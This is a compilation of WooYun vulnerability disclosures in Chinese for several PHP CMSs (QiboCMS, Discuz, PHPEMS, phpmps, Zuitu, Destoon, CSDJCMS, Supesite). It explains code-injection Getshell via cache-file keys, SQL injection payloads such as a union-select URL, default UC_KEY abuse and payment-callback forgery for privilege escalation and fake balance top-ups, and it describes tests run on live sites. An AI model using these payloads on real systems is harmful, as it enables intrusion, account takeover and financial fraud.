多研究研究了会 发现可以 Getshell。

看了看 qibo 所有的开源系统 都存在这洞。

无需登录 Getshell。

之前一直在因为不能直接闭合而纠结。

找 P 神指点了指点 成功搞定。

用整站系统来演示一下把。

* * *

P.S. 狗哥 能否送我个邀请码/hx

## 详细说明

全局过滤函数

```php
function Add_S($array){

    foreach($array as $key=>$value){

        if(!is_array($value)){

            @eregi("['\\\"&]+",$key) && die('ERROR KEY!');

            $value=str_replace("&#x","& # x",$value);    //过滤一些不安全字符

            $value=preg_replace("/eval/i","eva l",$value);    //过滤不安全函数

            !get_magic_quotes_gpc() && $value=addslashes($value);

            $array[$key]=$value;

        }else{

            $array[$key]=Add_S($array[$key]); 

        }

    }

    return $array;

} 
```

看似修复得很完美 可是呢。


被匹配出

当像下图这样提交的时候 匹配的 key 是 asd 那么就不会被匹配出 就不会被过滤。


在 label_module.php 中 这里无需登录任何

```php
else

{

    foreach($label AS $key=>$value)

    {

        var_dump ($value);exit;

        //如果是新标签时,即为数组 array(),要清空

        if(is_array($value))

        {

            $label[$key]='';

        }

    }

    //写缓存

    if( (time()-filemtime($FileName))>($webdb[label_cache_time]*60) ){

        $_shows="<?php\r\n\$haveCache=1;\r\n";

        foreach($label AS $key=>$value){

            $value=addslashes($value);

            $_shows.="\$label['$key']=stripslashes('$value');\r\n";

        }

        write_file($FileName,$_shows.'?>');

    }    

} 
```

由于 qibo 是

```php
foreach($_POST AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_POST[$_key];

}

foreach($_GET AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_GET[$_key];

} 
```

所以这变量$label 可以直接控制。

然后循环出来 数组中的 key 和 value 都直接写入到了缓存文件中。

这里由于 value 全局的函数 会受到第一次转义 $value=addslashes($value);

这里又经过了第二次转义 那么就是 a\\'

"$label['$key']=stripslashes('$value');\r\n"

写入时候的代码 就看有个 stripslashes 其实是不会被执行的 而就是把 stripslashes 写入到文件当中。

这时候只有来利用 key 由于在全局的过滤函数中没对 key 做 addslashes(也不能做 addslashes) 所以不会被转义 而且结合上面的 就直接绕过了。

当写入到文件中的时候是这样的。


key 中直接含单引号 被匹配到然后退出了。

结合上面的方式绕过。


这时候写入的代码为 $label['asd'']=stripslashes('');

后面的 stripslashes('') 为啥是空的了呢

如果不是空的还能利用转义符来搞。

因为我们这样提交 index.php?label[asd'][asd]=asda' 这样的那么他的 value 是数组

```php
if(is_array($value))

        {

            $label[$key]='';

        } 
```

就清空了。

一开始我一直在纠结如果闭合之前的这个[ 我就需要提交一个 yu']# 类似这样的

可是写入的是数组中的 key 如果要在 key 中写入]的话 那么就成了

[http://**.**.**.**/qibov7/index.php?label[asd']][asd]=asda](http://**.**.**.**/qibov7/index.php?label[asd']][asd]=asda)'

就成了[asd']] 这样 那么提交的] 和之前[ 闭合 然后 key 就还是 asd'

然后就一直在这纠结这个问题。。

后面问了问 P 神 尼玛 瞬间给我解决。

P 神给的['a'."${phpinfo()}".''] 利用双引号的二次解析来 Getshell

那么就让我们的 key 为 a'."${phpinfo()}".' 这个就行了 不含]


测试一下能不能执行


竟然报错了? 这里我们用一下错误抑制符

那么也就是['a'."[[email protected]](cdn-cgi/l/email-protection)()}".''] 提交的 key 为 a'."[[email protected]](cdn-cgi/l/email-protection)()}".'


成功执行。

后面我再简化了一下其实是不需要用到双引号的二次解析的

[''.phpinfo().''] 提交的 key 为'.phpinfo().' 依旧可以直接执行

之前的思维一直就是想着去闭合。唉。

* * *

内容可以搞定了 这里我们再来看一下文件名是咋来的

```php
$FileName=ROOT_PATH."cache/label_cache/";

    if(!is_dir($FileName)){

        makepath($FileName);

    }

    $FileName.=(ereg("\.php",basename($WEBURL))?preg_replace("/\.php(.*)/","",basename($WEBURL)):'index')."_".intval($ch)."_".intval($ch_pagetype)."_".intval($ch_module)."_".intval($ch_fid)."_".intval($city_id).'_'.substr(md5(getTpl("index",$chdb[main_tpl])),0,5).".php"; 
```

首先目录 cache/label_cache/

再来看文件名

*".intval($ch)."*".intval($ch*pagetype)."*".intval($ch*module)."*".intval($ch*fid)."*".intval($city*id).'*'.substr(md5(getTpl("index",$chdb[main_tpl])),0,5).".php"

就是经过一系列的转整 除开$ch 为 1 其他的那些变量 我们都没去定义 那么 intval 后为 0

那么就是 index_1_0_0_0_0_substr(md5(getTpl("index",$chdb[main_tpl])),0,5).php

来看一下这个 getTpl("index",$chdb[main_tpl])

这个其实就是模版地址 网站的绝对路径+默认模版地址

这里用到了网站的绝对路径 所以我们要找一个可以泄漏绝对路径的。

会泄漏绝对路径的地方很多 我随便贴两处把

[`**.**.**.**/data/label_hf.php`](http://**.**.**.**/data/label_hf.php)

[`**.**.**.**//do/fontimg.php`](http://**.**.**.**//do/fontimg.php)

[`**.**.**.**//hack/gather/inc/show_system_fid.php`](http://**.**.**.**//hack/gather/inc/show_system_fid.php)

以为本地测试为例


D:\ApmServ\www\htdocs\qibov7\data\label_hf.php

那么网站的绝对路径就为 D:\ApmServ\www\htdocs\qibov7

再加上默认模版路径/template/default/index.htm

那就是 D:\ApmServ\www\htdocs\qibov7/template/default/index.htm

对这个进行 md5 一次 得到 82e4a1041f04d2edb779e87b37623786

然后他这里是 substr(md5(getTpl("index",$chdb[main_tpl])),0,5)取前 5 位

那么就是 82e4a 再拼凑起来

那么就得到 cache/label_cache/index_1_0_0_0_0_82e4a.php


找文件的第二种方法

在 windows iis 下可以利用短文件名来猜解

如果 windows apache 的话 那就更简单了

直接 cache/label*cache/index*~1.php


直接就可以了。

当然 5 位 也可以尝试爆破一下嘛 哈哈。

## 漏洞证明

见上面把。

## 修复方案

这个我也不太清楚了 你们自己好好思考思考把。

这个文件 每个开源的系统中都有。

每个都要修改。

# WooYun-2014-71516：Discuz 5.x 6.x 7.x 前台 SQL 注入漏洞一枚

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-071516`](http://www.wooyun.org/bugs/wooyun-2014-071516)

## 简要描述

自从补课补完了 感觉自己都完全荒废了。 睡觉 看电视 看小说。 唉。

得开始努力学习考大学 哦也。

* * *

看到 map 牛 发了几个 dz7.2 的 也看到还在更新 我也就看了看 前台注入一枚, 也都知道 如果 ucenter 和 DZ 在一个裤里面的话就可以拿到 uc_key 拿到 uc_key 了 然后……。 很简单的一个洞。

## 详细说明

[`**.**.**.**/Discuz/7.2/Discuz_7.2_SC_GBK.zip`](http://**.**.**.**/Discuz/7.2/Discuz_7.2_SC_GBK.zip)

刚在官网下的这个。

首先说一下 这洞需要有权限发布投票才行 刚注册的会员是不能发布投票的

我看了下默认发布投票需要的权限 需要从注册会员开始才有发布投票的权限


看了一下注册会员所需要的积分是 50 分

50 分 上传个头像 做个任务就差不多了(所以狗哥 这不算限制条件把?)

* * *

在 post.php 中

从 263 行开始 也就是最后的那几行

```php
if($action == 'newthread') {

    ($forum['allowpost'] == -1) && showmessage('forum_access_disallow');

    require_once DISCUZ_ROOT.'./include/newthread.inc.php';

} elseif($action == 'reply') {

    ($forum['allowreply'] == -1) && showmessage('forum_access_disallow');

    require_once DISCUZ_ROOT.'./include/newreply.inc.php';

} elseif($action == 'edit') {

    ($forum['allowpost'] == -1) && showmessage('forum_access_disallow');

    require_once DISCUZ_ROOT.'./include/editpost.inc.php';

} elseif($action == 'newtrade') {

    ($forum['allowpost'] == -1) && showmessage('forum_access_disallow');

    require_once DISCUZ_ROOT.'./include/newtrade.inc.php';

} 
```

包含了这么多文件进来 我找了这个文件看了起来 include/editpost.inc.php

然后在 include/editpost.inc.php 第 272 行左右

```php
if($thread['special'] == 1 && ($alloweditpoll || $isorigauthor) && !empty($polls)) {

                $pollarray = '';

                $pollarray['options'] = $polloption;

                if($pollarray['options']) {

                    if(count($pollarray['options']) > $maxpolloptions) {

                        showmessage('post_poll_option_toomany');

                    }

                    foreach($pollarray['options'] as $key => $value) {

                        if(!trim($value)) {

                            $db->query("DELETE FROM {$tablepre}polloptions WHERE polloptionid='$key' AND tid='$tid'");

                            unset($pollarray['options'][$key]);

                        }

                    }

                    $polladd = ', special=\'1\''; 
```

foreach($pollarray['options'] as $key => $value) {

这里直接把数组中的 key 带入到了 delete 查询当中。

再来看一下 dz 的全局文件

```php
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {

    foreach($$_request as $_key => $_value) {

        $_key{0} != '_' && $$_key = daddslashes($_value);

    }

} 
```

```php
function daddslashes($string, $force = 0) {

    !defined('MAGIC_QUOTES_GPC') && define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());

    if(!MAGIC_QUOTES_GPC || $force) {

        if(is_array($string)) {

            foreach($string as $key => $val) {

                $string[$key] = daddslashes($val, $force);

            }

        } else {

            $string = addslashes($string);

        }

    }

    return $string;

} 
```

这里先判断了 gpc 是否开启 如果没有开启 就用 addslashes 再来转义

这里对数组中的 value 进行转义 key 无过滤。

```php
$db->query("DELETE FROM {$tablepre}polloptions WHERE polloptionid='$key' AND tid='$tid' 
```

所以再进行这个查询的时候 我们就可以引入单引号了。

* * *

在执行循环之前有一个条件

if($thread['special'] == 1 && ($alloweditpoll || $isorigauthor) && !empty($polls))

这里($alloweditpoll || $isorigauthor) $isorigauthor 判断是不是你是作者 如果你编辑的是你的文章的话 肯定是 true。 $polls 这个直接就可以控制。

$thread['special'] == 1 之前我一直在纠结这个是啥东西。。

后面看了看发文章的时候的代码 这个$thread['special'] == 1 代表的就是发布的是投票。

那如果我们自己发布一个投票 然后再编辑 就可以进入这里了。


首先发布一个投票。 发布完后 再点击编辑。

然后再抓一下包。

这里我输出了一下

```php
$polladd = '';

            if($thread['special'] == 1 && ($alloweditpoll || $isorigauthor) && !empty($polls)) {

                $pollarray = '';

                $pollarray['options'] = $polloption;

            var_dump ($polloption);exit;//输出 
```


我擦 一看竟然已经有值了?

在这里我本来已经准备放弃了, 但是还是抱着试一试的态度 在 url 写了这个


发现还是可以控制 而且单引号 理所应当的没有被转义。

那不是就可以注入了吗? 构造一下语句。

```php
if(!trim($value)) {

                            $db->query("DELETE FROM {$tablepre}polloptions WHERE polloptionid='$key' AND tid='$tid'"); 
```

因为这里 数组中的 value 为 false 的时候才会进去

所以这里数组的 value 我们就不写


成功出数据。

## 漏洞证明


## 修复方案

foreach($pollarray['options'] as $key => $value) {

$key=addslashes($key);

if(!trim($value)) {

$db->query("DELETE FROM {$tablepre}polloptions WHERE polloptionid='$key' AND tid='$tid'");

? 还是看你们把。

# WooYun-2014-80875：qibocms 地方门户系统 注入#4(demo 测试)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-080875`](http://www.wooyun.org/bugs/wooyun-2014-080875)

## 简要描述

offset

## 详细说明

在 zhuangxiu/job.php 中

```php
if(eregi("^([_0-9a-z]+)$",$job)){

    require_once(Mpath."inc/job/$job.php");

}elseif(eregi("^([_0-9a-z]+)$",$action)){

    require_once(Mpath."inc/job/$action.php");

} 
```

包含进来

zhuangxiu\inc\job\post_img.php 中

```php
foreach( $photodb AS $key=>$value){

        if(strlen($value)>4&&!eregi("(gif|jpg|png)$",$value)){ //这里限定了 value 结尾必须含有 jpg 啥的

            showerr("只能上传 GIF,JPG,PNG 格式的文件,你不能上传此文件:$value");

        }

    }

    $num=0;

    foreach( $photodb AS $key=>$value ){

        $titledb[$key]=filtrate($titledb[$key]);

        $value=trim($value);

        $value=filtrate($value);

        if($titledb[$key]>100){

            showerr("标题不能大于 50 个汉字");

        }

        if(strlen($value)<4){

            $db->query("DELETE FROM `{$_pre}pic` WHERE pid='{$piddb[$key]}' AND id='$id'");

        }elseif($piddb[$key]){

            $num++;

            $db->query("UPDATE `{$_pre}pic` SET name='{$titledb[$key]}',imgurl='$value' WHERE pid='{$piddb[$key]}'");

        }elseif($value){

            $num++;

            $db->query("INSERT INTO `{$_pre}pic` ( `id` , `fid` , `mid` , `uid` , `type` , `imgurl` , `name` ) VALUES ( '$id', '$fid', '$mid', '$lfjuid', '0', '$value', '{$titledb[$key]}')");

        } 
```

UPDATE `{$_pre}pic` SET name='{$titledb[$key]}',imgurl='$value' WHERE pid='{$piddb[$key]}'

注意看这语句。 $title 并没有初始化 那么结合 qibocms 的全局机制 那么就可以控制

而且这里 $titledb[$key] 如果我们提交的$titledb 为字符串的话 那么[$key]就成了读取字符的了。 如果$key 为 0 那么就是读取字符串的第一位

如果我们提交' 被 qibocms 的全局转义成了\' 那么截取第一位 就是\

就能吃掉一个单引号了。 然后 刚好后面的一个变量可控。

导致了可以注入。 $value 虽然结尾限定了必须为 jpg

但是直接注释掉后面的就行了。


可以看到截取的\ 吃掉了 单引号 造成了注入。

构造一下。


成功出数据。

测试 demo:


成功报错 直接 update column 就出数据了。

## 漏洞证明


## 修复方案

判断是不是数组。

如果是数组的话 再进行这样的操作。

# WooYun-2014-60159：phpmps 注入 (可修改其他用户密码,官网成功)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-060159`](http://www.wooyun.org/bugs/wooyun-2014-060159)

## 简要描述

验证不足啊。

## 详细说明

在 api/uc.php 中

```php
define('IN_PHPMPS', true);

define('UC_CLIENT_VERSION', '1.5.0');    //note UCenter 版本标识

define('UC_CLIENT_RELEASE', '20081031');

define('API_DELETEUSER', 1);        //note 用户删除 API 接口开关

define('API_RENAMEUSER', 1);        //note 用户改名 API 接口开关

define('API_GETTAG', 1);            //note 获取标签 API 接口开关

define('API_SYNLOGIN', 1);            //note 同步登录 API 接口开关

define('API_SYNLOGOUT', 1);            //note 同步登出 API 接口开关

define('API_UPDATEPW', 1);            //note 更改用户密码 开关

define('API_UPDATEBADWORDS', 1);    //note 更新关键字列表 开关

define('API_UPDATEHOSTS', 1);        //note 更新域名解析缓存 开关

define('API_UPDATEAPPS', 1);        //note 更新应用列表 开关

define('API_UPDATECLIENT', 1);        //note 更新客户端缓存 开关

define('API_UPDATECREDIT', 0);        //note 更新用户积分 开关

define('API_GETCREDITSETTINGS', 0);    //note 向 UCenter 提供积分设置 开关

define('API_GETCREDIT', 0);            //note 获取用户的某项积分 开关

define('API_UPDATECREDITSETTINGS', 0);    //note 更新应用积分设置 开关

define('API_RETURN_SUCCEED', '1');

define('API_RETURN_FAILED', '-1');

define('API_RETURN_FORBIDDEN', '-2');

//note 普通的 http 通知方式

if(!defined('IN_UC')) 

{

    error_reporting(0);

    set_magic_quotes_runtime(0);

    defined('MAGIC_QUOTES_GPC') || define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());

    include '../include/common.php';

    include '../include/uc.inc.php';

    $_DCACHE = $get = $post = array();

    $code = @$_GET['code'];

    parse_str(_authcode($code, 'DECODE', UC_KEY), $get);

    if(MAGIC_QUOTES_GPC) {

        $get = _stripslashes($get);

    }

    $action = $get['action'];

    require_once '../uc_client/lib/xml.class.php';

    $post = xml_unserialize(file_get_contents('php://input')); 
```

UC_KEY 默认为 phpmps。 官网的也如此。

为 1 的我们都可以调用。

那就来调用这个把

```php
function updatepw($get, $post) {

        global $db,$table;

        if(!API_UPDATEPW) {

            return API_RETURN_FORBIDDEN;

        }

        $username = $get['username'];

        $password = $get['password'];

        $newpw = md5($password);

        $db->query("UPDATE {$table}member SET password='$newpw' WHERE username='$username'");

        return API_RETURN_SUCCEED;

    } 
```

这里 是个 update 的语句 所以我们可以更改其他用户的密码。

然后我们自己生成一个加密的注入语句。。。

## 漏洞证明

测试 demo。


## 修复方案

验证。

# WooYun-2014-61135：PHPEMS (在线考试系统) 设计缺陷 Getshell 一枚(官网已 shell)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-061135`](http://www.wooyun.org/bugs/wooyun-2014-061135)

## 简要描述

号称是最好用的开源 php 考试系统? 果断来看看。

已拿下官网。

## 详细说明

PHPEMS 整合了 uc。

在 api/config.inc.php 中

```php
define('UC_CONNECT', 'mysql');

define('UC_DBHOST', 'localhost');

define('UC_DBUSER', 'root');

define('UC_DBPW', 'root');

define('UC_DBNAME', 'ucenter16');

define('UC_DBCHARSET', 'utf8');

define('UC_DBTABLEPRE', '`ucenter16`.uc_');

define('UC_DBCONNECT', '0');

define('UC_KEY', '1234567890'); 
```

在不整合 uc 的话 UC_KEY 默认就为 1234567890

[`**.**.**.**/bugs/wooyun-2014-048137`](http://**.**.**.**/bugs/wooyun-2014-048137)

利用 UC_KEY Getshell。 测试一下官网。

## 漏洞证明


无破坏,谢谢。

## 修复方案

判断是否整合。

# WooYun-2014-58479：最土团购注入一枚可直接提升自己为管理 & 无限刷钱。

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-058479`](http://www.wooyun.org/bugs/wooyun-2014-058479)

## 简要描述

最土团购在我印象中 用得还是有把。

至少我自己都遇到过几次了。

前段时间挖的了。 本来想留着自己玩的。

可是留着留着也没用过, 忘记了自己早已不搞站。

还是发出来把。

注入可提升自己为管理 & 给自己刷 100 万可好?

无视 GPC。

## 详细说明

在 order/chinabank/notify.php 中

```php
$key = $INI['chinabank']['sec'];

$v_oid     = trim($_POST['v_oid']);  // 商户发送的 v_oid 定单编号   

$v_pmode   = trim($_POST['v_pmode']); // 支付方式（字符串）   

$v_pstatus = trim($_POST['v_pstatus']);   //支付状态 ：20 成功,30 失败

$v_pstring = trim($_POST['v_pstring']);   // 支付结果信息

$v_amount  = trim($_POST['v_amount']);     // 订单实际支付金额

$v_moneytype = trim($_POST['v_moneytype']); //订单实际支付币种    

$remark1   = trim($_POST['remark1' ]);      //备注字段 1

$remark2   = trim($_POST['remark2' ]);     //备注字段 2

$v_md5str  = trim($_POST['v_md5str' ]);   //拼凑后的 MD5 校验值  

/* 重新计算 md5 的值 */

$text = "{$v_oid}{$v_pstatus}{$v_amount}{$v_moneytype}{$key}";

$md5string = strtoupper(md5($text));

/* 判断返回信息，如果支付成功，并且支付结果可信，则做进一步的处理 */

if ($v_md5str == $md5string) {

    list($_, $order_id, $city_id, $_) = explode('-', $v_oid, 4);

    if($v_pstatus=="20") {

        /* charge */

        if ( $_ == 'charge' ) {

            @list($_, $user_id, $create_time, $_) = explode('-', $v_oid, 4);

            ZFlow::CreateFromCharge($v_amount, $user_id, $create_time, 'chinabank');

            die('ok');

        } 
```

key 是空的 不用管他。 只是一点点的验证。 MD5 相等可好, 然后把 v_oid 用来切割。

然后带入 CreateFromCharge

```php
static public function CreateFromCharge($money,$user_id,$time,$service='alipay',$trade_no=''){

        global $option_service;

        if (!$money || !$user_id || !$time) return 0;

        $pay_id = "charge-{$user_id}-{$time}";

        $pay = Table::Fetch('pay', $pay_id);

        if ( $pay ) return 0;

        $order_id = ZOrder::CreateFromCharge($money,$user_id,$time,$service);

        if (!$order_id) return 0;

        //insert pay record

        $pay = array(

            'id' => $pay_id,

            'vid' => $trade_no,

            'order_id' => $order_id,

            'bank' => $option_service[$service],

            'currency' => 'CNY',

            'money' => $money,

            'service' => $service,

            'create_time' => $time,

        );

        DB::Insert('pay', $pay);

        ZCredit::Charge($user_id, $money);

        //end//

        //update user money;

        $user = Table::Fetch('user', $user_id);

        Table::UpdateCache('user', $user_id, array(

                    'money' => array( "money + {$money}" ),

                    ));

        $u = array(

                'user_id' => $user_id,

                'admin_id' => 0,

                'money' => $money,

                'direction' => 'income',

                'action' => 'charge',

                'detail_id' => $pay_id,

                'create_time' => $time,

                );

        return DB::Insert('flow', $u);

    } 
```

这里有一个 insert 语句 和一个 update 语句。

insert 里面的都被单引号了。 而且如果我们提交单引号的话还会被转义。

```php
Table::UpdateCache('user', $user_id, array(

                    'money' => array( "money + {$money}" ),

                    )); 
```

看这个 update $money 是没有单引号的。

然后带入查询 首先构造一下语句。

由于 管理和用户都是在 user 表里 是通过 manager 这个 column 用来判断是否为管理员。

我们给我们自己的用户的 manager update 成 y 即可成为管理员。

UPDATE `user` SET `money`=money + asd WHERE `id`='88'

执行的语句如此。 我们构造一下语句。

## 漏洞证明


成功提升。

百度随便找了个站测试。


无限刷钱


成功提升。

## 修复方案

过滤。

# WooYun-2014-55026：Destoon Sql 注入漏洞 2（有条件）

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-055026`](http://www.wooyun.org/bugs/wooyun-2014-055026)

## 简要描述

过滤不严。

## 详细说明

上次是 alipay 这次来个 paypal 的。 当然 tenpay 也有这洞

paypal 和 tenpay 的一起说了。

api\pay\paypal\notify.php 中

```php
require '../../../common.inc.php';

$_POST = $_DPOST;

if(!$_POST) exit('fail');

$bank = 'paypal';

$PAY = cache_read('pay.php');

if(!$PAY[$bank]['enable']) exit('fail');  //得开启这种支付方式。

if(!$PAY[$bank]['partnerid']) exit('fail'); 
```

```php
$item_name = $_POST['item_name'];

$item_number = $_POST['item_number'];

$payment_status = $_POST['payment_status'];

$payment_amount = $_POST['mc_gross'];

$payment_currency = $_POST['mc_currency'];

$txn_id = $_POST['txn_id'];

$receiver_email = $_POST['receiver_email'];

$payer_email = $_POST['payer_email'];

$charge_status = 0;

$sql="SELECT * FROM {$DT_PRE}finance_charge WHERE itemid='$item_number' AND status=0";

$r = $db->get_one("SELECT * FROM {$DT_PRE}finance_charge WHERE itemid='$item_number' AND status=0"); 
```

paypal 无过滤。 连验证都没验证。

直接注入

————————————————————————————————————————

tenpay

```php
if($resHandler->isTenpaySign()) {

    //通知 id

        $notify_id = $resHandler->getParameter("notify_id");

    //通过通知 ID 查询，确保通知来至财付通

    //创建查询请求

        $queryReq = new RequestHandler();

        $queryReq->init();

        $queryReq->setKey($key);

        $queryReq->setGateUrl("https://**.**.**.**/gateway/simpleverifynotifyid.xml");

        $queryReq->setParameter("partner", $partner);

        $queryReq->setParameter("notify_id", $notify_id);

    //通信对象 
```

tenpay 里面多了个验证 不过可以轻松通过。、

```php
$transaction_id = $resHandler->getParameter("transaction_id");

    //金额,以分为单位

                $total_fee = $resHandler->getParameter("total_fee");

    //如果有使用折扣券，discount 有值，total_fee+discount=原请求的 total_fee

                $discount = $resHandler->getParameter("discount");

                //------------------------------

                //处理业务开始

                //------------------------------

                //处理数据库逻辑

                //注意交易单不要重复处理

                //注意判断返回金额

                $total_fee = ($total_fee+$discount)/100;

                $r = $db->get_one("SELECT * FROM {$DT_PRE}finance_charge WHERE itemid='$out_trade_no'"); 
```

然后带入查询。

## 漏洞证明


看看所执行的语句。


## 修复方案

过滤。

# WooYun-2014-52363：CSDJCMS 程式舞曲最新版 Sql 一枚

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-052363`](http://www.wooyun.org/bugs/wooyun-2014-052363)

## 简要描述

看到官网上又更新了 2014-2-25 加强了 SQL 安全注入。特别感谢白帽子：（′ 雨。、C4nf3ng、Jim 叔叔、寂寞的瘦子、lxj616 ）对程序的漏洞检测。 还感谢了各白帽子啊 还不错。

那就继续挖挖?

## 详细说明

在 user\pay.php 中

```php
public function tenpay_return_url() { 

        require_once (CSCMSPATH."tenpay/ResponseHandler.class.php");

        $resHandler = new ResponseHandler();

        $resHandler->setKey($key);

        //判断签名

        if($resHandler->isTenpaySign()) {

            //通知 id

            $notify_id = $resHandler->getParameter("notify_id");

            //商户订单号

            $out_trade_no = $resHandler->getParameter("out_trade_no");

            //财付通订单号

            $transaction_id = $resHandler->getParameter("transaction_id");

            //如果有使用折扣券，discount 有值，total_fee+discount=原请求的 total_fee

            $discount = $resHandler->getParameter("discount");

            //支付结果

            $trade_state = $resHandler->getParameter("trade_state");

            //交易模式,1 即时到账

            $trade_mode = $resHandler->getParameter("trade_mode");

            if("1" == $trade_mode ) {

                if( "0" == $trade_state){ 

                                $row=$this->db->query("select CS_RMB from ".CS_SqlPrefix."pay where CS_Dingdan='".$out_trade_no."'")->row();

                                if(!$row){

                                        $this->CsdjSkins->Msg_url('验证失败,该定单不存在!',site_url('user')); 

                                }

                                $this->CsdjSkins->Msg_url('恭喜您，成功充值了 '.$row->CS_RMB.' 元，若出现问题请尽快联系客服,请牢记您的定单号：'.$out_trade_no.'!',site_url('user')); 

                } else {

                    //当做不成功处理

                    echo "<br/>" . "即时到帐支付失败" . "<br/>";

                }

            }elseif( "2" == $trade_mode  ) {

                if( "0" == $trade_state) {

                    echo "<br/>" . "中介担保支付成功" . "<br/>";

                } else {

                    echo "<br/>" . "中介担保支付失败" . "<br/>";

                }

            }

        } else {

            echo "<br/>" . "认证签名失败" . "<br/>";

            echo $resHandler->getDebugInfo() . "<br>"; 
```

getParameter 就相当 request 把?

这里是没有过滤的。 但是有点验证。

```php
function isTenpaySign() {

        $signPars = "";

        ksort($this->parameters);

        foreach($this->parameters as $k => $v) {

            if("sign" != $k && "" != $v) {

                $signPars .= $k . "=" . $v . "&";

            }

        }

        $signPars .= "key=" . $this->getKey();

        $sign = strtolower(md5($signPars));

        $tenpaySign = strtolower($this->getParameter("sign"));

        //debug 信息

        $this->_setDebugInfo($signPars . " => sign:" . $sign .

                " tenpaySign:" . $this->getParameter("sign"));

        return $sign == $tenpaySign;

    } 
```

相等即可。

Come and Sql it.

## 漏洞证明


官网测试成功。

还可以充值任意金额。

## 修复方案

Check it.

# WooYun-2014-80873：qibocms 地方门户系统 注入#3 (demo 测试)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-080873`](http://www.wooyun.org/bugs/wooyun-2014-080873)

## 简要描述

Fighting

## 详细说明

在/hy/member/homepage_ctrl.php 中

```php
if($atn&&eregi("^([_a-z0-9]+)$",$atn)&&is_file(dirname(__FILE__)."/homepage_ctrl/$atn.php")){

    require_once(dirname(__FILE__)."/homepage_ctrl/$atn.php");

} 
```

包含文件进来

hy\member\homepage_ctrl\pic_edit.php 中

```php
if(count($pids)<1) showerr("至少选择一项");

$pids=implode(",",$pids);

$query=$db->query("SELECT * FROM {$_pre}pic WHERE pid IN($pids) ORDER BY orderlist DESC");

while($rs=$db->fetch_array($query)){

    $rs[posttime]=date("Y-m-d H:i:s",$rs[posttime]);

    //$rs[url]=$webdb[www_url]."/".$user_picdir.$rs[url];

    $rs[url]=tempdir($rs[url]);

    $listdb[]=$rs;

} 
```

$pids=implode(",",$pids); 这里成字符串后 然后就直接带入到了查询当中

且无单引号。

所以可以直接注入了。

注册个会员

hy/member/homepage_ctrl.php?atn=pic_edit&pids[]=1) union select 1,2,3,4,user(),6,7,8,9,10,11,12%23


测试一下 demo:


构造一下


## 漏洞证明


## 修复方案

intval

# WooYun-2014-79045：Supesite 前台注入 #3 (Delete)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-079045`](http://www.wooyun.org/bugs/wooyun-2014-079045)

## 简要描述

Delete 如果 ucenter 和 supesite 在一个裤的话 可以尝试把 uckey 注入出来 然后……

## 详细说明

在 cp.php 中

```php
$ac = empty($_GET['ac']) ? 'profile' : trim($_GET['ac']);

if(in_array($ac, array('index', 'news', 'profile', 'credit', 'models'))) {

    include_once(S_ROOT.'./source/cp_'.$ac.'.php'); 
```

包含进来

在 source/cp_news.php 中

```php
if(empty($itemid)) { //这里让$itemid 不为空

        if(!empty($_SCONFIG['posttime']) && $_SGLOBAL['group']['groupid'] != 1) {

            if($_SGLOBAL['timestamp'] - $_SGLOBAL['member']['lastposttime'] < $_SCONFIG['posttime']) {

                showmessage('post_too_much');

            }

        }

        $newsarr['uid'] = $_SGLOBAL['supe_uid'];

        $newsarr['username'] = $_SGLOBAL['supe_username'];

        $newsarr['dateline'] = $_SGLOBAL['timestamp'];

        if($_POST['fromtype'] == 'newspost') {

            $newsarr['fromtype'] = 'newspost';

            $newsarr['fromid'] = intval($_POST['id']);

        } else {

            $newsarr['fromtype'] = 'userpost';

        }

        if(!checkperm('allowdirectpost')) {

            $itemarr['itemid'] = inserttable('spaceitems', $newsarr, 1);

            inserttable('spacenews', $itemarr);

            getreward('postinfo');

            postspacetag('add', $_POST['type'], $itemarr['itemid'], $tagarr,1);

            $do = 'pass';

        } else {

            $itemarr['itemid'] = inserttable('postitems', $newsarr, 1);

            inserttable('postmessages', $itemarr);

            postspacetag('add', $_POST['type'], $itemarr['itemid'], $tagarr,0);

            $do = 'me';

        }

        //更新用户最新更新时间

        if($_SGLOBAL['supe_uid']) {

            updatetable('members', array('updatetime'=>$_SGLOBAL['timestamp'], 'lastposttime'=>$_SGLOBAL['timestamp']), array('uid'=>$_SGLOBAL['supe_uid']));    

        }

    } else { //进入 else

        if(empty($_SGLOBAL['supe_uid'])) showmessage('no_permission');

        updatetable('postitems', $newsarr, array('itemid'=>$itemid));

        updatetable('postmessages', $itemarr, array('itemid'=>$itemid));

        $itemid = empty($_POST['oitemid']) ? $itemid : $_POST['oitemid'];//没有 intval

        postspacetag('update', $_POST['type'], $itemid, $tagarr, 0);//跟这里

    } 
```

```php
function postspacetag($op, $type, $itemid, $tagarr, $status) {

    global $_SGLOBAL;

    $deletetagidarr = $addtagidarr = $spacetagidarr = array();

    if($op == 'add') {    //已经存在的 tag,执行加入操作

        if(!empty($tagarr['existsid'])) {

            $addtagidarr = $tagarr['existsid'];

            $_SGLOBAL['db']->query('UPDATE '.tname('tags').' SET spacenewsnum=spacenewsnum+1 WHERE tagid IN ('.simplode($tagarr['existsid']).')');

        }

    } else {

        $query = $_SGLOBAL['db']->query('SELECT * FROM '.tname('spacetags').' WHERE itemid=\''.$itemid.'\' AND status=\''.$status.'\'');//查询

        while ($spacetag = $_SGLOBAL['db']->fetch_array($query)) {

